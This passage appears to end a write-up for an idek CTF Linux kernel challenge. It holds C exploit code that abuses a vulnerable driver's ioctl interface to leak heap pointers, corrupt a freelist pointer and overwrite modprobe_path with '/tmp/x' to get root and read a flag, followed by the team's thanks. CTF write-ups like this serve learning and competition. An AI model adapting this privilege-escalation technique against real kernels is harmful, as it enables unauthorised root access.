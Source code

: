 ```c
    strncpy(data.buffer, "AAAA", CHUNK_SIZE);
    int a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "BBBB", CHUNK_SIZE); 
    a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "CCCC", CHUNK_SIZE);  
    a = ioctl(global_fd, 0xdeadbeef, &data);
    a = ioctl(global_fd, 0x1337, &data);

    unsigned long long *p = &data.buffer;
    data.idx = 0;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak0 = p[CHUNK_SIZE / 8 - 1];
    data.idx = 2;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak1 = p[CHUNK_SIZE / 8 - 1];
    printf("0x%llx 0x%llx\n", leak0, leak1);

    data.idx = 2;
    unsigned long long fake = leak1 + 0x100;
    
    p[CHUNK_SIZE / 8 - 1] = fake;
    p[0] = 0x43434343;
    a = ioctl(global_fd, 0xbabecafe, &data);
    strncpy(data.buffer, "DDDD", CHUNK_SIZE);
    a = ioctl(global_fd, 0xdeadbeef, &data);
    p[0] = 0x45454545;
    a = ioctl(global_fd, 0xdeadbeef, &data);

    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = leak0 + 0x400;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    a = ioctl(global_fd, 0xcafebabe, &data);
    for (int i = 0; i < CHUNK_SIZE / 8; i ++){
        printf("0x%llx\n", p[i]);
    }
    unsigned long long modprobe_path = p[7] + 0x629ce0;
    printf("0x%llx\n", modprobe_path);


    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = modprobe_path-0x10;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    strncpy(data.buffer, "AAAAAAAA/tmp/x\x00", CHUNK_SIZE);
    a = ioctl(global_fd, 0xbabecafe, &data);
    get_flag();

    // After that you cat /tmp/flag

    return 0;
}
```

### Final words
Thanks for the great CTF idek! Unexpected result tbh, wasnt expecting pjsk to win, but after 48 hours of tryharding we did it!

Cant wait for idek CTF 2023!
